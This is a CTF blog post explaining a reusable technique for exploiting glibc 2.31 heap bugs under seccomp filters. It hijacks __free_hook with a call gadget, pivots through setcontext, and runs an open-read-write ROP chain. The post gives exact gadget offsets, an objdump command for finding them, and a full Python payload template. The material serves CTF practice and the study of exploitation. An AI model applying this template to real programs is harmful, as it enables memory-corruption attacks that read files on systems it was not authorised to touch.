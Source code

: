 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Glibc 2.31 Heap + Seccomp Exploitation Technique using ROP"
subtitle: "My technique of solving glibc 2.31 heap challenges with seccomp"
summary: ""
authors: [midas]
tags: []
categories: []
date: 2021-01-03T04:40:50-08:00
lastmod: 2021-01-03T04:40:50-08:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```


## Introduction
*In this post, I assume that readers are somewhat comfortable with heap exploitation. If you are not, you can start with other simpler techniques available on the Internet to get used to it first.*

Recently, I have seen a lot of glibc 2.31 heap pwning challenges in various CTFs that include `seccomp` filters which prevent you from directly overwrite `__free_hook` with `one_gadget` to pop a shell. I have also read some writeups of different CTF players using different techniques to workaround the `seccomp` filters, but it seems that no one has written about a generalized exploitation technique for this kind of challenge. Therefore in this blog post, I will demonstrate the technique I use, analyze how it works and provide you with a template that can be reused if the pre-requisites are met.

## Pre-requisites
For this technique to be successfully executed, the following conditions must be met:
- You can leak `libc` and `heap`'s base addresses. 
- You have a primitive that can overwrite `__free_hook`.
- My ROP chain is an `open-read-write` chain, which means that the only syscalls that need to be allowed by `seccomp` are `open`, `read` and `write` (this is true for most challenges). It doesn't need `mmap` or `mprotect` to work.
- You can write to a heap chunk that is large enough to contain the payload, which is 0x168 bytes, if it's too much, you can consider using other shorter payloads with `mprotect` or `mmap`, but the idea is the same (and of course you must be able to `free` that chunk).
- You know the absolute path to `flag` file (which you can most of the time ask the organizers).

## Gadgets
As I mentioned in the title, this technique is a ROP chain on the heap, and with ROP, the most important things are the gadgets. All the gadgets that are used in this technique are in `libc` itself, the `libc-2.31.so` version I used here has `md5sum` of `1ec728d58f7fc0d302119e9bb53050f8`. If you have a `libc-2.31.so` that has different checksum, the offset might be different, but the gadgets should still be there. Below are the gadgets I use:

Firstly, the ordinary gadgets that deal with manipulating registers and `syscall`:
```python
# l.address is leaked base of libc
pop_rdi = l.address + 0x26b72
pop_rsi = l.address + 0x27529
pop_rdx_r12 = l.address + 0x11c371
push_rax = l.address + 0x45197
pop_rax = l.address + 0x4a550
xchg_eax_edi = l.address + 0x2ad2b
syscall_ret = l.address + 0x66229
```

All the gadgets except `syscall_ret` can be found using this [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) tool. For `syscall_ret`, you can use this command (thanks `@Catafact` for this): 
```
objdump -D -Mintel ./libc-2.31.so | grep -B 1 ret | grep -A 1 syscall
``` 

The next 2 gadgets are crucial for this technique, the first one is at `call_gadget = l.address + 0x154930`:
```asm
mov     rdx, [rdi+8]
mov     [rsp], rax
call    qword ptr [rdx+0x20]
```

This gadget is what we will overwrite `__free_hook` with. It allows us to call an arbitrary function through `rdx`, if we control `rdi`, which is exactly the parameter that will be passed to `free()`. 

The next gadget is inside libc function `setcontext()`, at offset `setcontext_gadget = l.address + 0x580DD`:
```asm
mov     rsp, [rdx+0A0h]
mov     rbx, [rdx+80h]
mov     rbp, [rdx+78h]
mov     r12, [rdx+48h]
mov     r13, [rdx+50h]
mov     r14, [rdx+58h]
mov     r15, [rdx+60h]
test    dword ptr fs:48h, 2
jz      loc_581C6

loc_581C6:
mov     rcx, [rdx+0A8h]
push    rcx
mov     rsi, [rdx+70h]
mov     rdi, [rdx+68h]
mov     rcx, [rdx+98h]
mov     r8, [rdx+28h]
mov     r9, [rdx+30h]
mov     rdx, [rdx+88h]
xor     eax, eax
ret
```
Because we control `rdx`, this gadget allows us to set almost every registers (with the exception of `rax`, `r10` and `r11`).

## The payload
My payload can be divided into 3 parts, which I will explain one by one. 

The first part:
```python
base = heap + <.....>             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
payload += p64(base)              # <-- [rdi + 8] = rdx
payload += b"B"*0x10              # padding
payload += p64(setcontext_gadget) # <-- [rdx + 0x20]
```
This is the `base` of our payload, where `rdi` will be pointed to when `free()` is called. I set `[rdi + 8]` to also be `base`, so that when `mov rdx, [rdi+8]` is executed, `rdx` will also point at `base`. Then `[rdx + 0x20]` will be the address of the `setcontext()` gadget, which will be called.

The second part, which will be utilized after `setcontext_gadget` is called:
```python
payload += p64(0)                 # <-- [rdx + 0x28] = r8
payload += p64(0)                 # <-- [rdx + 0x30] = r9
payload += b"A"*0x10              # padding
payload += p64(0)                 # <-- [rdx + 0x48] = r12
payload += p64(0)                 # <-- [rdx + 0x50] = r13
payload += p64(0)                 # <-- [rdx + 0x58] = r14
payload += p64(0)                 # <-- [rdx + 0x60] = r15
payload += p64(base + 0x258)      # <-- [rdx + 0x68] = rdi (ptr to flag path)
payload += p64(0)                 # <-- [rdx + 0x70] = rsi (flag = O_RDONLY)
payload += p64(0)                 # <-- [rdx + 0x78] = rbp
payload += p64(0)                 # <-- [rdx + 0x80] = rbx
payload += p64(0)                 # <-- [rdx + 0x88] = rdx 
payload += b"A"*8                 # padding
payload += p64(0)                 # <-- [rdx + 0x98] = rcx 
payload += p64(base + 0x1b0)      # <-- [rdx + 0xa0] = rsp, perfectly setup for it to ret into our chain
payload += p64(pop_rax)           # <-- [rdx + 0xa8] = rcx, will be pushed to rsp
```
With the comments, it is self-explanatory. This is where all the registers are set based on `rdx`. Even though there are lots of registers to set, I'm only interested at `rdi` and `rsi`, which will be the parameters to `sys_open`, along with `rcx` and `rsp`, which must be carefully set so that after `push rcx` is executed, `rsp` must be in the correct position to execute the third part, which is the ROP chain on the heap, `rcx` is set to `pop_rax` gadget to start the chain.

The third part:
```python
payload += p64(2)
payload += p64(syscall_ret) # sys_open("/path/to/flag", O_RDONLY)
payload += p64(xchg_eax_edi)
payload += p64(pop_rsi)
payload += p64(heap + 0x15000) # destination buffer, can be anywhere readable and writable
payload += p64(pop_rdx_r12)
payload += p64(0x100) + p64(0) # nbytes
payload += p64(pop_rax)
payload += p64(0)
payload += p64(syscall_ret) # sys_read(eax, heap + 0x15000, 0x100)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap + 0x15000) # buffer
payload += p64(pop_rdx_r12)
payload += p64(0x100) + p64(0) # nbytes
payload += p64(pop_rax)
payload += p64(1)
payload += p64(syscall_ret) # sys_write(1, heap + 0x15000, 0x100)
payload += b"/path/to/flag"
```
Nothing much to say about this part, if you know ROP, you know that this is an ordinary `open-read-write` chain.

After allocating this `payload` and overwriting `__free_hook` with the `call_gadget`, calling `free()` on it will execute the chain and print out the `flag`.

## Examples
Here are some writeups to challenges that me and my team solved using this technique:
- [TetCTF2021 - cache_v1 & cache_v2](https://blog.efiens.com/post/tetctf2021-pwn-writeups/) by `@midas` (me).
- [ASCIS/SVATTT2020 Finals - Secret Keeper](https://blog.efiens.com/post/ascis2020-final-secret-keeper/) by `@pickaxe`

